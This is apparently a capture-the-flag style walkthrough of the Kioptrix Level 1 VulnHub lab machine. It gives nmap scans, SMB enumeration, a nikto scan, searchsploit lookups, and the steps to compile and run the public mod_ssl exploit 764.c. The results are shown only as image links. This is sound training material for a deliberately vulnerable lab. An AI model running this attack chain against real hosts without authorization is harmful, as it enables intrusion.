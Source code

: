 # Kioptrix-Level-1

Author: Kioptrix
Web page: http://www.kioptrix.com/blog/?page_id=135

Download link: https://download.vulnhub.com/kioptrix/Kioptrix_Level_1.rar

## Vulnhub machine writeup

1. Find target IP 

    command : **nmap -sn 192.168.122.0/24**

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled.png)

### SCANNING

  2.  nmap Full port scanning 

 command : **nmap -p- IP_address** 

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%201.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%201.png)

 3.  Open ports —> 22, 80, 111, 139, 443, 1024

 4.  nmap -sV -A --script vuln -p [all_ports] Ip_address

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%202.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%202.png)

### ENUMERATION

PORT - 139

 5. enum4linux IP_address 

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%203.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%203.png)

6.  Enumerating smb file shares

**smbclient -L Ip_address**

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%204.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%204.png)

7. Share IPC or ADMIN 

**smbclient [//IP_address/IPC$](//ip_address/IPC$) -U**

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%205.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%205.png)

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%206.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%206.png)

8. **searchsploit samba | grep remote**

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%207.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%207.png)

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%208.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%208.png)

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%209.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%209.png)

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2010.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2010.png)

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2011.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2011.png)

### PORT 80

Scanning website using nikto 

**nikto -h IP_address**

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2012.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2012.png)

Apache mod_ssl 2.8.4 is vulnerable

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2013.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2013.png)

**searchsploit mod_ssl**

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2014.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2014.png)

**searchsploit -x exploit/unix/remote/764.c > 764.c**

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2015.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2015.png)

**gcc 764.c -o 764**

**./764**

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2016.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2016.png)

**./764 target host -c 42**

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2017.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2017.png)

![Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2018.png](Kioptrix%20Level%201%2092fc1ded06c541e2aee03c560aa7f674/Untitled%2018.png)
